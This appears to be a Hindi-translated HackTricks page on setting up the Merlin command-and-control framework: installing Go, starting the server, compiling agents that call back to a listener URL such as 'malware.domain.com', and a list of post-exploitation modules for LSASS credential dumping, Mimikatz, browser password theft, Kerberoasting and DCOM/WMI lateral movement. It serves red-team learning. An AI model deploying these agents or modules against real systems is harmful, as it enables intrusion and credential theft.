 <details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

दूसरे तरीके HackTricks का समर्थन करने के लिए:

* अगर आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) कलेक्शन, [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **Twitter** पर **फॉलो** करें 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **अपने हैकिंग ट्रिक्स साझा करें, PRs सबमिट करके** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में।

</details>


# Installation

## Install GO
```
#Download GO package from: https://golang.org/dl/
#Decompress the packe using:
tar -C /usr/local -xzf go$VERSION.$OS-$ARCH.tar.gz

#Change /etc/profile
Add ":/usr/local/go/bin" to PATH
Add "export GOPATH=$HOME/go"
Add "export GOBIN=$GOPATH/bin"

source /etc/profile
```
## मर्लिन इंस्टॉल करें
```
go get https://github.com/Ne0nd0g/merlin/tree/dev #It is recommended to use the developer branch
cd $GOPATH/src/github.com/Ne0nd0g/merlin/
```
# मर्लिन सर्वर लॉन्च करें
```
go run cmd/merlinserver/main.go -i
```
# मर्लिन एजेंट्स

आप [पूर्व-संकलित एजेंट्स डाउनलोड](https://github.com/Ne0nd0g/merlin/releases) कर सकते हैं

## एजेंट्स कंपाइल करें

मुख्य फ़ोल्डर जाएं _$GOPATH/src/github.com/Ne0nd0g/merlin/_
```
#User URL param to set the listener URL
make #Server and Agents of all
make windows #Server and Agents for Windows
make windows-agent URL=https://malware.domain.com:443/ #Agent for windows (arm, dll, linux, darwin, javascript, mips)
```
## **मैन्युअल कंपाइल एजेंट**
```
GOOS=windows GOARCH=amd64 go build -ldflags "-X main.url=https://10.2.0.5:443" -o agent.exe main.g
```
# मॉड्यूल

**बुरी खबर यह है कि मर्लिन द्वारा प्रयोग किए जाने वाले प्रत्येक मॉड्यूल को स्रोत (गिथब) से डाउनलोड किया जाता है और उसे उसके उपयोग से पहले डिस्क पर सहेज लिया जाता है। जानकारी वाले मॉड्यूल का उपयोग करते समय सावधान रहें क्योंकि Windows Defender आपको पकड़ लेगा!**


**SafetyKatz** --> संशोधित Mimikatz। LSASS को फ़ाइल में डंप करें और उस फ़ाइल में:sekurlsa::logonpasswords लॉन्च करें\
**SharpDump** --> निर्दिष्ट प्रक्रिया आईडी के लिए मिनीडंप (डिफ़ॉल्ट रूप से LSASS) (अंतिम फ़ाइल का एक्सटेंशन .gz है लेकिन वास्तव में यह .bin है, लेकिन एक .gz फ़ाइल है)\
**SharpRoast** --> Kerberoast (काम नहीं करता)\
**SeatBelt** --> स्थानीय सुरक्षा परीक्षण CS में (काम नहीं करता) https://github.com/GhostPack/Seatbelt/blob/master/Seatbelt/Program.cs\
**Compiler-CSharp** --> csc.exe /unsafe का उपयोग करके कंपाइल करें\
**Sharp-Up** --> पावरअप में C# में सभी जांचें (काम करता है)\
**Inveigh** --> PowerShellADIDNS/LLMNR/mDNS/NBNS स्पूफ़र और मैन-इन-द-मिडिल टूल (काम नहीं करता, लोड करने की आवश्यकता है: https://raw.githubusercontent.com/Kevin-Robertson/Inveigh/master/Inveigh.ps1)\
**Invoke-InternalMonologue** --> सभी उपलब्ध उपयोगकर्ताओं का अनुकरण करता है और प्रत्येक के लिए एक चैलेंज-प्रतिक्रिया प्राप्त करता है (प्रत्येक उपयोगकर्ता के लिए एनटीएलएम हैश) (बुरा यूआरएल)\
**Invoke-PowerThIEf** --> IExplorer से फॉर्म चुराएं या उसमें JS को क्रियान्वित करें या उस प्रक्रिया में एक DLL इंजेक्ट करें (काम नहीं करता) (और पीएस भी काम नहीं करता लगता है) https://github.com/nettitude/Invoke-PowerThIEf/blob/master/Invoke-PowerThIEf.ps1\
**LaZagneForensic** --> ब्राउज़र पासवर्ड प्राप्त करें (काम करता है लेकिन आउटपुट निर्देशिका को प्रिंट नहीं करता)\
**dumpCredStore** --> Win32 Credential Manager API (https://github.com/zetlen/clortho/blob/master/CredMan.ps1) https://www.digitalcitizen.life/credential-manager-where-windows-stores-passwords-other-login-details\
**Get-InjectedThread** --> चल रहे प्रक्रियाओं में क्लासिक इंजेक्शन का पता लगाएं (क्लासिक इंजेक्शन (OpenProcess, VirtualAllocEx, WriteProcessMemory, CreateRemoteThread)) (काम नहीं करता)\
**Get-OSTokenInformation** --> चल रहे प्रक्रियाओं और धागों की टोकन जानकारी प्राप्त करें (उपयोगकर्ता, समूह, विशेषाधिकार, मालिक… https://docs.microsoft.com/es-es/windows/desktop/api/winnt/ne-winnt-\_token_information_class)\
**Invoke-DCOM** --> DCOM के माध्यम से (दूसरे कंप्यूटर में) एक कमांड का निष्पादन करें (http://www.enigma0x3.net.) (https://enigma0x3.net/2017/09/11/lateral-movement-using-excel-application-and-dcom/)\
**Invoke-DCOMPowerPointPivot** --> PowerPoint COM ऑब्जेक्ट्स (ADDin) का दुरुपयोग करके दूसरे पीसी में एक कमांड निष्पादित करें\
**Invoke-ExcelMacroPivot** --> Excel में DCOM का दुरुपयोग करके दूसरे पीसी में एक कमांड निष्पादित करें\
**Find-ComputersWithRemoteAccessPolicies** --> (काम नहीं करता) (https://labs.mwrinfosecurity.com/blog/enumerating-remote-access-policies-through-gpo/)\
**Grouper** --> ग्रुप नीति के सभी रोचक हिस्से को डंप करता है और फिर उनमें खोज करता है कि उनमें उचित चीजें हैं या नहीं। (पुराना) Grouper2 पर एक नज़र डालें, बहुत अच्छा लगता है\
**Invoke-WMILM** --> विमाई को लैटरली मूव करने के लिए WMI\
**Get-GPPPassword** --> groups.xml, scheduledtasks.xml, services.xml और datasources.xml खोजें और सादा पासवर्ड प्राप्त करें (डोमेन के अंदर)\
**Invoke-Mimikatz** --> Mimikatz का उपयोग करें (डिफ़ॉल्ट डंप क्रेडेंशियल्स)\
**PowerUp** --> https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc\
**Find-BadPrivilege** --> कंप्यूटरों में उपयोगकर्ताओं की विशेषाधिकारों की जांच करें\
**Find-PotentiallyCrackableAccounts** --> SPN से जुड़े उपयोगकर्ता खातों के बारे में जानकारी प्राप्त करें (Kerberoasting)\
**psgetsystem** --> getsystem

**स्थायित्व मॉड्यूल की जांच नहीं की गई**

# सारांश

मुझे वास्तव में इस उपकरण की भावना और क्षमता बहुत पसंद है।\
मुझे आशा है कि उपकरण सर्वर से मॉड्यूल डाउनलोड करना शुरू कर देगा और स्क्रिप्ट डाउनलोड करते समय किसी प्रकार की टालना जोड़े।

<details>

<summary><strong>जीरो से हीरो तक AWS हैकिंग सीखें</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* अगर आप अपनी कंपनी का विज्ञापन HackTricks में देखना चाहते हैं या HackTricks को PDF में डाउनलोड करना चाहते हैं तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) कलेक्शन [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **जुड़ें** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में या हमें **ट्विटर** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)** पर फॉलो** करें।
* **अपने हैकिंग ट्रिक्स साझा करें, हैकट्रिक्स**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github रेपो में पीआर जमा करके।

</details>
